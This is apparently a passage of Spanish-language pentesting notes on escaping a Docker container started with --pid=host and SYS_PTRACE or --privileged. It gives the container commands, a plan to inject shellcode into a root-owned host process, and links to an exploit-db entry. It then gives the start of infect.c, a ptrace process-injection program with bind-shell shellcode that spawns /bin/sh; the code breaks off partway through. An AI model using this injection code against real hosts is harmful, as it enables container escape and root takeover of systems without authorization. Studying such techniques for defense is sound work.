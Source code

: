 
### Forma 2

```bash 
❯ docker run --rm -dit --pid=host --name ubuntuServer ubuntu  # Nos crearemos un contenedor de una imagen antes descargada, pid = Hacer que los procesos de la maquina host los podamos ver y podamos interactuar con ellos dentro del contenedor 
❯ docker exec -it ubuntuServer bash        # Ingresamos al contenedor 'ubuntuServer' por medio de una bash como root
	❯ ps -faux                            # Miramos los procesos del contenedor y descubrimos que hay uno proceso en el cual tenemos un servicio y lo ejecuta root, nosotros podemos inyectar 'shellcode' a bajo proceso para poder hacer la escalada
```

* [Infecting-Running-Processes](https://0x00sec.org/t/linux-infecting-running-processes/1097)
* [Github-Infect-Running-Process](https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c)
* [CVE-41128](https://www.exploit-db.com/exploits/41128)

Usaremos el código de la pagina anterior para poder hacer el ataque
```bash 
# Cabe mencionar que debemos de tener la capabilitie de Ptrace activada, de lo contrario la descargamos y volvemos as desplegar el contenedor 
❯ docker run --rm -dit --pid=host --cap-add=SYS_PTRACE --name ubuntuServer ubuntu  # Nos crearemos un contenedor
❯ docker run --rm -dit --pid=host --privileged --name ubuntuServer ubuntu  # Nos crearemos un contenedor, con permiso a todas las capabilities

# Con ese servicio abierto nos montaremos una BindShell
```

Creamos el archivo llamado 'infect.c' que ejecutaremos en el contenedor, el cual se aprovechara del proceso que esta corriendo root, el cual le agregaremos parte del CVE 41128
```bash
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 87

unsigned char *shellcode = 
  "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";


int
inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;

  for (i = 0; i < len; i+=4, s++, d++)
    {
```